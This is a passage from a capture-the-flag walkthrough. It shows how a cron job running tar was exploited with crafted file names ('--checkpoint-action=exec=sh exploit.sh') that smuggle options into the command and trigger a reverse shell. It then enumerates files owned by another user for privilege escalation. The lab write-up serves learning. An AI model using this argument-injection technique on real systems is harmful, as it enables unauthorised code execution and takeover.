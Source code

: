 let's get a fully interactive tty shell using python and when we list the current directory

```console
backupmgr@tryharder:~/.ftp/files$ ls -la
total 12
drwxr-xr-x 2 backupmgr backupmgr 4096 Sep 26 11:15  .
drwxr-xr-x 3 nobody    nogroup   4096 May 11 01:32  ..
-rwxr-xr-x 1 backupmgr backupmgr    0 Sep 26 11:15 '--checkpoint=1'
-rwxr-xr-x 1 backupmgr backupmgr    0 Sep 26 11:15 '--checkpoint-action=exec=sh exploit.sh'
-rwxr-xr-x 1 backupmgr backupmgr  228 Sep 26 11:15  exploit.sh
```

That's how the cronjob exploit happened , it reached to the `checkpoint 1` and it instructed to execute a shell `exploit.sh` which contains our payload to give reverse shell. Hope you understood it. It took me a lot of time to understand.

Now we got outside the container we can easily move ahead. We are the user `backupmgr` and we can't access the user `jeff`

```console
backupmgr@tryharder:~/.ftp/files$ cd /home
backupmgr@tryharder:/home$ ls -la
total 16
drwxr-xr-x  4 root      root      4096 May 10 22:28 .
drwxr-xr-x 25 root      root      4096 May 23 14:40 ..
drwxr-xr-x  7 backupmgr backupmgr 4096 May 24 13:25 backupmgr
drwx------  5 jeff      jeff      4096 May 18 16:09 jeff
backupmgr@tryharder:/home$
```

So to escalate our privilege let's see what are the files owned by `jeff`

```bash
find / -user jeff 2>/dev/null

```

hmm...

```console
backupmgr@tryharder:/home$ find / -user jeff 2>/dev/null
/opt/systools
/opt/systools/systool
/home/jeff
/var/backups/jeff.bak
backupmgr@tryharder:/home$
```

`/var/backups/jeff.bak` contains the creds of `jeff` which we can't access right now..

`/opt/systools/systool` seems interesting

```console
backupmgr@tryharder:/opt/systools$ file systool 
systool: setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a1b3c82d2e7f7a8238bc85dabfef348c6ca50557, for GNU/Linux 3.2.0, not stripped
backupmgr@tryharder:/opt/systools$ ls -la
total 32
drwxrwxrwx 2 jeff jeff   4096 May 24 15:08 .
drwxr-xr-x 4 root root   4096 May 24 13:13 ..
-rwxrwxrwx 1 root root    108 May 24 13:19 message.txt
-rwxr-sr-x 1 jeff pwman 17160 May 24 13:18 systool
backupmgr@tryharder:/opt/systools$
```
